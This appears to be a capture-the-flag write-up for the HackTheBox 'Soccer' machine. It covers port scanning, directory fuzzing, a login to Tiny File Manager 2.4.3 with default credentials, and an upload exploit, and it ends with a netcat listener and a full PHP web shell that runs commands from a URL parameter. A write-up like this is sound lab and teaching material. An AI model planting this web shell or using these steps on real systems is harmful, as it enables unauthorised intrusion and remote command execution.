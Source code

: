 # Soccer

# Recon
Nmap shows open ports: 22, 80 and 9091.

I can't find anything interesting on 9091 for now, so I'll leave it until I think I might need it. Although it looks like a node js app.

Wfuzz doesn't find anything on port 9091 either, but it did find /tiny on port 80:

```
000018127:   301        7 L      12 W       178 Ch      "tiny"                                   
```

I visit http://soccer.htb/tiny. It seems to be a file manager written in PHP according to the docs on github.

I try running sqlmap on the login form, but sqlmap doesn't find injections here. Went on the Tiny docs to browse around and stubled upon default credentials, and voila! that gave me admin access to the Tiny service!

I can see files related to the website as well as to the file manager, and in the bottom right corner I can see which version was running:

Tiny File Manager 2.4.3

# Initial foothold

A quick google for "Tiny File Manager 2.4.3" and gitub pulls through with a POC: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit/blob/main/exploit.sh

Looks like I can append &upload to the url and upload something to the server.

```
http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload
```

I thought I'd try with a reverse shell first, so I set up a netcat listener on my attacking machine:

```
$ nc -lnvp 4444
```

And upload this php file to Tiny service in the `uploads` folder

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
